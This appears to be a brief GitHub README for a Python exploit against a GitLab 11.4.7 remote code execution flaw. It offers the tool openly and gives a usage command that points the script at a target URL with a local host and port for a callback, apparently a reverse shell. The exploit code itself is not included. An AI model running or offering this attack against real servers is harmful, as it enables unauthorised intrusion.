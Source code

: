 ## gitlab11.4.7rce
Custom code written in python to exploit Gitlab 11.4.7 vulnerability

<hr>

#### Basic Usage: 
```txt
python3 ready.py --url http://example.com:5080 --lhost $LHOST --lport $LPORT
```
